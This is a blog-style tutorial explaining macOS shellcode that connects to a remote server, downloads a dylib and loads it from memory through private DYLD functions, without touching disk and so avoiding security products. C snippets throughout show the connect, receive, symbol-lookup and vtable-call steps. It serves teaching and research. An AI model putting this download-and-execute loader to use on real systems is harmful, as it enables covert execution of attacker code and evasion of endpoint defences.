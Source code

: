 ```yaml
---
layout: post
title: Loading from memory
draft: false
---
```


Building shellcode and playing with assembly is my idea of fun. In this article I introduce shellcode that executes to download a dynamic library from a TCP connection and loads it without ever touching the disk. On MacOS, there are several methods of doing that [1], but I would like to show another alternative which possibly requires less code to implement.

## TL;DR;

I reuse functions in DYLD that were never meant to be used externally.

## Shellcode Compiler

A while back I introduced a utility called [shellcc](https://github.com/nologic/shellcc) which is built to assist with building shellcode using a high level language like C. It is called _shellcc_ only because it constructs very compact byte code of instructions. Unfortunately, it does not really handle a lot of the important use-cases of for real shellcode construction. Use-cases such as character restrictions. As such, the tool serves another purpose really well.

I show this use-case in an introductory walk through:

<center><iframe width="420" height="315" src="https://www.youtube.com/embed/yg9svg9xE8g" frameborder="0" allowfullscreen></iframe></center>

When I started out my work on iOS, I did not know Aarch64 assembly very well. So, I needed a boon to help me bootstrap. This was the other purpose of _shellcc_ - an educational tool. I would use it to compile basic C programs in order to understand how the assembly is written to make system calls and process data. So, the tool is kind of an 80% solution that would give me template assembly that I could later play with. It also helped me with reverse engineering. Specifically to test theories about what certain blocks from IDAPro might have looked like in a high level language.

On semi-regular basis, I try to do presentations at the NYU OSIRIS lab for educational purposes. I pick a topic that I had played with recently and found useful and present in practical detail. I wanted to do this with _shellcc_ and, so, I came up with a practial example: *How to write one of the most common shellcodes? One that connects to a TCP port, downloads a dylib and loads it into the process space.* As an added challenge, I wanted to do so without touching disk (and triggering personal security products). This is what I would like to present in this blog. Of course, as I've mentioned earlier, there is more than one way.

## The Technique

The file that implements the technique is called [injectdyld.c](https://github.com/nologic/shellcc/blob/master/shellcode/injectdyld.c) and can be found in the github repository. The name is a bit misleading, but the the technique is there.

First, we connect to the port and download the library:

```c
    bzero((struct sockaddr *)&serv_addr,sizeof(serv_addr));
    serv_addr.sin_family = AF_INET;
    serv_addr.sin_addr.s_addr = SERVER_IP;
    serv_addr.sin_port = htons(SERVER_PORT);

    // Connect to the remote host.
    if(scc_connect(sockfd,(struct sockaddr *)&serv_addr,
                   sizeof(serv_addr)) < 0) {
        // If not, clean up and bail.
        scc_exit(44);
    }

    int fileSize = receivefile(sockfd, dyld_buffer, mem_size);
```

Next, we load the dynamic loader:

```c
    int dyld_fd = scc_open("/usr/lib/dyld", O_RDONLY, 0);
    void* dyld_buf = scc_mmap(NULL, mem_size, PROT_READ, 
                              MAP_PRIVATE, dyld_fd, 0);
```

This step is a bit wasteful because the process would've likely already had the dynamic loader mapped in memory. However, we are in shell code and it is a lot easier to map the file than to find the existing location.

Then, we find the symbol `dlsym` which will help us find other symbols in the process space.

```c
    typedef void* (*dlsym_t)(void* handle, const char* symbol);
    dlsym_t dlsym = (dlsym_t)findSymbol64(dyld_buf, mem_size, 
                                          "_dlsym", 6);
```

The `findSymbol64` exists in the shellcode and it parses the Mach-O file of `dyld` to locate the function.

Then we locate the `loadFromMemory` function or, rather, a C++ class constructor.

```c
    typedef void* (*loadFromMemory_t)
       (const uint8_t* mem, uint64_t len, const char* moduleName);

    loadFromMemory_t loadFromMemory = (loadFromMemory_t)findSymbol64(
          dyld_buf, mem_size, "__ZN4dyld14loadFromMemoryEPKhyPKc", 33);

    void* image = loadFromMemory(dyld_buffer, fileSize, NULL);
```

One day, while reading the DYLD source code, I discovered the `loadFromMemory` function which is used internally to parse a memory blob. Its mangled name is [__ZN4dyld14loadFromMemoryEPKhyPKc](https://opensource.apple.com/source/dyld/dyld-353.2.1/src/dyld.cpp) and the source preamble is below. This function constructs an `ImageLoader` class object in memory to internally describe the layout and all the features that the system cares about.

```c++
ImageLoader* loadFromMemory(const uint8_t* mem, uint64_t len, 
                            const char* moduleName)
{
    // if fat wrapper, find usable sub-file
    const fat_header* memStartAsFat = (fat_header*)mem;
    uint64_t fileOffset = 0;
    uint64_t fileLength = len;
    if ( memStartAsFat->magic == OSSwapBigToHostInt32(FAT_MAGIC) ) {
        if ( fatFindBest(memStartAsFat, &fileOffset, &fileLength) ) {
            mem = &mem[fileOffset];
            len = fileLength;
```

Next is the easy part. This is where we force the loaded Mach-O file to join the process as a proper dynamic library.

```c
    typedef void (*registerInterposing)(void* _this);

    // `vtable for ImageLoaderMachOCompressed
    ((registerInterposing) (*( (*(uint8_t***)image) + 64))) (image);
```

Because we are not implementing this in C++, we don't get the nice language abstractions to class objects. So, instead we have to force an instance call. Remember, back in the day, C++ was implemented as C++ to C translator, so we know this has to be possible.

We dereference the image object to obtain the `vtable`, we then dereference again at an offset to get the function of our dreams. We cast the pointer to a function pointer and call it with the pointer to the object as the first parameter. C++ functions (when looked through the eyes of C) expect the first parameter to the `this` pointer.

The `registerInterposing` is a function that is called when we inject libraries into the process by using the environment variable (i.e. `DYLD_INSERT_LIBRARIES`). Using this private interface activates the internal workings of DYLD to load libraries properly to be used by the rest of the process.

```c
    foo_t foo = dlsym(RTLD_DEFAULT, "foo");

    // call the desired procedure.
    int ret = foo();
```

Finally, we execute our library function to kick off the maliciously injected code.

## Conclusion
Using functions `loadFromMemory` and `registerInterposing` seem simple but it was not obvious without a fairly in-depth analysis of DYLD. This method is useful when the alternatives might not be applicable.


---
[1] Objective-C runtime method (https://s3.amazonaws.com/s3.synack.com/infiltrate.pdf slide 29)







